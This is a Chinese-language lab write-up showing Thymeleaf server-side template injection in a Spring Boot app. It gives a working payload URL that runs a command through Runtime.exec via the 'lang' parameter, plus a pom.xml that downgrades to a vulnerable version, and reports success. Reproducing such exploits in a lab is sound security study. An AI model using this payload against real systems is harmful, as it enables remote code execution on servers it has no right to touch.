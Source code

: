 对于不同版本的Thymeleaf，他可能会造成漏洞：

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/398abfbe675240d3929de85b608c44c2.png)

使用阿里云的版本2.6.13：

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/f5caa9f8e0384765a8b33842e258cfe0.png)

注入代码：（发现报错）

```url
http://127.0.0.1:8080/?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
```

替换pom.xml使其变换版本，重新构建：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
 
    <groupId>org.springframework</groupId>
    <artifactId>java-spring-thymeleaf</artifactId>
    <version>1.0</version>
 
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <!--latest-->
        <version>2.2.0.RELEASE</version>
    </parent>
 
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>
 
    </dependencies>
 
    <properties>
        <java.version>1.8</java.version>
    </properties>
 
    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>
</project>
```

注入成功：

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/3805.png)